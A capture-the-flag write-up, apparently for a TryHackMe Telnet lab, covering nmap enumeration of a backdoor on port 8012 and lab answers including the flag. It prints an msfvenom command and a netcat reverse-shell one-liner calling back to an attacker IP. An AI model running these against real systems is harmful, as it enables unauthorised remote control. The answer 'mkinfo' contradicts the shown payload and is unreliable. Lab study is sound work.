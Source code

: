# Telnet  

Ports: 23

- *Application protocol* (largely replaced by SSH due to lack of encryption)  
- Transmits data in **clear text** (no encryption)  

**Basic Connection:**  
```bash 
telnet <ip> <port>
```  

#### Solutions:

1. What is Telnet?
```plaintext
application protocol
```

2. What has slowly replaced Telnet?
```plaintext
ssh
```

3. How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?
```bash
telnet 10.10.10.3 23
```

4. The lack of what means that all Telnet communication is in plaintext?
```plaintext
encryption
```
---

# Enumerating Telnet  

#### Port Scanning  
```bash 
nmap -vv -Pn -p- <target ip>
```  

**Key Insight:**  
- Telnet on **non-standard ports** won’t appear in Nmap’s default top 1000 scan.  
- Always scan all ports (`-p-`) for thorough enumeration.  
- `-A` for aggressive scanning and useful NSE scripts tested

```bash
nmap -vv -A -oN scanport <target ip>
```

**Useful Resources:**  
- [CVE Details](https://www.cvedetails.com/)  
- [MITRE CVE Database](https://cve.mitre.org/)  

#### Solutions:

1. How many **ports** are open on the target machine?
```plaintext
1
```

2. What **port** is this?
```plaintext
8012
```

3. This port is unassigned, but still lists the **protocol** it's using, what protocol is this?
```plaintext
tcp
```

4. Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?
```plaintext
0
```
 
(This is because telnet is running on a non-standard port 8012 which is beyond the 1000 standard ports and hence won't appear in a standard nmap scan which only scans for 1000 ports)

5. Based on the title returned to us, what do we think this port could be **used for**?
```plaintext
a backdoor
```

(we can find this out by doing an aggressive scan - it returns a string which says "SKIDY'S BACKDOOR")

6. Who could it belong to? Gathering possible **usernames** is an important step in enumeration.
```plaintext
Skidy
```
---

# Exploiting Telnet  

#### Basic Access  
```bash 
telnet <ip> <port>
```  

 Understanding Shells  
- **Shell**: Code that enables command execution on a target device.  
- **Reverse Shell**: Target machine initiates a connection back to the attacker’s listening machine.  

Manual Command Execution  

Inside Telnet:  
```telnet 
.RUN <command>  # Commands must be prefixed with `.RUN`
```  

**Example: Testing Connectivity**  
1. **Attacker (Listening):**  
   ```bash 
   sudo tcpdump ip proto \\icmp -i tun0  # Monitor ICMP traffic
   ```  
2. **Telnet Session:**  
   ```telnet 
   .RUN ping [attacker_ip] -c 1  # Send ping to attacker
   ```  

**Gaining a Reverse Shell**  
###### Step 1: Generate Payload (Metasploit)  
```bash 
msfvenom -p cmd/unix/reverse_netcat lhost=[your_ip] lport=4444 R
```  
- **Output Example:**  
  ```bash 
  mkfifo /tmp/kcvzv; nc 10.23.108.250 4444 0</tmp/kcvzv | /bin/sh >/tmp/kcvzv 2>&1; rm /tmp/kcvzv
  ```  

###### Step 2: Start Listener  
```bash 
nc -lvnp 4444  # Attacker listens for connection
```  

###### Step 3: Execute Payload via Telnet  
```telnet 
.RUN mkfifo /tmp/kcvzv; nc 10.23.108.250 4444 0</tmp/kcvzv | /bin/sh >/tmp/kcvzv 2>&1; rm /tmp/kcvzv
```  

**Successful Connection:**  
![successful connection](https://github.com/user-attachments/assets/ae9bee57-01d1-41c7-8dcc-20b75c701d98)

#### Solutions:

1. What welcome message do we receive?
```plaintext
SKIDY'S BACKDOOR
```

2. Do we get a return on any input we enter into the telnet session? (Y/N)
```plaintext
N
```

3. Use the command "ping [local THM ip] -c 1" through the telnet session (prefaced with .RUN). Do we receive any pings? (Y/N)
```plaintext
Y
```

4. What word does the generated payload start with?
```plaintext
mkinfo
```

5. What would the command look like for the listening port we selected in our payload?
```bash
nc -lvnp 4444
```

6. What is the contents of flag.txt?
```plaintext
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

